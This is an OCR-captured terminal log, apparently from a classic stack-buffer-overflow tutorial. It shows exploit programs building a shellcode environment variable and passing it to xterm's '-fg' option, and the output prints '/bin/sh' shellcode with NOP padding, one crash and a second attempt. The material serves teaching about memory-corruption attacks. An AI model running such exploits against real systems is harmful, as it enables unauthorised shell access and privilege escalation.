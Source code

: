 ```



^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/shHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHH
Warning: some arguments in previous message were lost
Illegal instruction
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/shTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT
```